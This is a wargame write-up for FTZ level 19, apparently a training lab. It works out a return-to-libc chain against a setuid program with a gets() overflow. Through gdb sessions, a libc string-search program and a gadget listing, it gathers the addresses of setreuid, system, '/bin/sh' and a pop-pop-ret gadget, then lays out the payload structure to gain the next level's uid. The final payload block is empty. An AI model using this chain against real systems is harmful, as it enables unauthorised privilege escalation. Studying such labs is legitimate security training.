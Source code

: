 # Level19

## This level's goal
- Chaining return to lib

***

```
[level19@ftz level19]$ ls -l
-rwsr-x---    1 level20  level19     13615 Mar  8  2003 attackme
-rw-r-----    1 root     level19        65 Mar  8  2003 hint

[level19@ftz level19]$ cat hint

main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

```
[level19@ftz level19]$ gdb -q attackme
(gdb) disass main
0x08048443 <main+3>:    sub    esp,0x28
```

0x28 means 40bytes, so then 40bytes + SFO(4bytes) + RET(4bytes)

```
[level19@ftz level19]$ cp attackme tmp/
[level19@ftz level19]$ gdb -q tmp/attackme
(gdb) b *main
(gdb) run
Starting program: /home/level19/tmp/attackme

(gdb) p system
$1 = {<text variable, no debug info>} 0x4203f2c0 <system>

(gdb) p setreuid
$2 = {<text variable, no debug info>} 0x420d7920 <setreuid>
```

As above, I could get the system's and setreuid's address.

```
[level19@ftz tmp]$ cat getsh.c
#include <stdio.h>
int main()
{
        long shell = 0x4203f2c0;
        while ( memcmp((void*) shell, "/bin/sh", 8) )
        {
                shell++;
        }
        printf("0x%x\n", shell);
        return 0;
}
[level19@ftz tmp]$ gcc getsh.c -o getsh
[level19@ftz tmp]$ ./getsh
0x42127ea4
```

Now, I got /bin/sh's adress in system() function.

And then I need to get setreuid's argvs.

```
[level19@ftz tmp]$ cat /etc/passwd | grep level20
level20:x:3100:3100::/home/level20:/bin/bash
```

Level20's uid is 3100 means 0x0000C1C(HEX).

```
[level19@ftz tmp]$ objdump -d attackme | egrep 'pop|ret'
 80482d3:       c3                      ret
 8048342:       5e                      pop    %esi
 804836e:       5b                      pop    %ebx
 8048385:       c3                      ret
 80483eb:       5d                      pop    %ebp
 80483ec:       c3                      ret
 80483f8:       5d                      pop    %ebp
 80483f9:       c3                      ret
 8048426:       5d                      pop    %ebp
 8048427:       c3                      ret
 8048438:       5d                      pop    %ebp
 8048439:       c3                      ret
 804846a:       c3                      ret
 804849c:       58                      pop    %eax
 804849d:       5b                      pop    %ebx
 804849e:       5d                      pop    %ebp
 804849f:       c3                      ret
 80484a8:       5d                      pop    %ebp
 80484a9:       c3                      ret
 80484ba:       5b                      pop    %ebx
 80484cd:       c3                      ret
```

For the chaining method, PPR's address(pop-pop-ret) is 804849d.

As a result, the attack code will be 44 bytes dummy stirngs + setreuid address + PPR address + ruid + euid + system address + dummy(4bytes) + /bin/sh address.
setreuid address = 0x420d7920   
PPR address = 0x804849d   
ruid and euid = 0x0000C1C
system address = 0x4203f2c0
/bin/sh address = 0x42127ea4

```

```
